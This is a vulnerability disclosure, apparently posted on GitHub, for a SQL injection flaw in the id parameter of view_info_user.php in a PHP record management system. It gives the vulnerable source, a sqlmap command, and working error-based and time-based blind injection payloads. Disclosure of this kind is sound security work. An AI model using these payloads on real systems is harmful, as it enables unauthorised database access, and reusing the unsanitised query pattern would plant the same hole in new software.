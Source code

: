 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (view_info_user.php id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
view_info_user.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/view_info_user.php):
```
$get_id=$_GET['id'];
$get_query=mysqli_query($conn,"select * from employee where employeeID='$get_id'")or die(mysqli_error());
$row=mysqli_fetch_array($get_query);$id=$row['employeeID'];
```
## Proof of vulnerability(Verify using the sqlmap tool):
#### -> sqlmap -u http://localhost/Personnel_record_management_system/view_info_user.php?id=166--batch
## Output:
```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=166'||(SELECT 0x5863715a WHERE 2674=2674 AND (SELECT 6770 FROM(SELECT COUNT(*),CONCAT(0x7176767071,(SELECT (ELT(6770=6770,1))),0x716b7a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=166'||(SELECT 0x6352424a WHERE 5250=5250 AND (SELECT 3715 FROM (SELECT(SLEEP(5)))dazK))||'
---
```
